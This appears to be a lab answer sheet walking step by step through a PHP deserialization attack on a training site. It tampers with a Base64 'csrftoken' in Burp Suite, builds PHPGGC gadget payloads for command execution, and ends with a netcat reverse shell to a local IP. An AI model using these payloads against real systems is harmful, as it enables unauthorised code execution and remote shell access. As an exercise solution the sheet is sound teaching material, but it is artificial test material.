 # PHP Deserialization Answersheet

**Step 1:**Navigate to "PHP Website:16664" link
![Usage](1.png)
<br /> <br />


**Step 2:**Provide the necessary information and click on "submit" button.
![Usage](2.png)
<br /> <br />


**Step 3:**Capture the request in BurpSuite proxy and Observe the "csrftoken" parameter contains the Base64 data.
![Usage](3.png)
<br /> <br />


**Step 4:**While decoding the value with Base64, we are able to identify the serealized data.
![Usage](4.png)
<br /> <br />


**Step 5:**Send request captured in **Step 3** to the Burp Repeater 
![Usage](5.png)
<br /> <br />


**Step 6:**Download the PHPGGC utility from the following location to generate the serealized payload using the following command and capture the payload
PHPGGC Location: https://github.com/ambionics/phpggc
```
./phpggc -b slim/rce1 system id
```
![Usage](6.png)
<br /> <br />


**Step 7:**Replace the payload generated in **Step 6** in parameter "csrftoken" in request captured in **Step 5** and send request and observe the serve respond with the output of command "id".
![Usage](7.png)
<br /> <br />


**Step 8:**Start the listener using the following command
```
nc -nlvp 6666
```
![Usage](8.png)
<br /> <br />


**Step 9:**Capture the system IP Address and used that to generate the payload of reverse shell using the following command and capture the payload
```
./phpggc -b slim/rce1 "nc 192.168.29.88 6666 -e /bin/bash"
```
![Usage](9.png)
<br /> <br />


**Step 10:**Repalce the payload catured in **Step 9** in "csrftoken" paramter in **Step 5** and click on "send" button.
![Usage](10.png)
<br /> <br />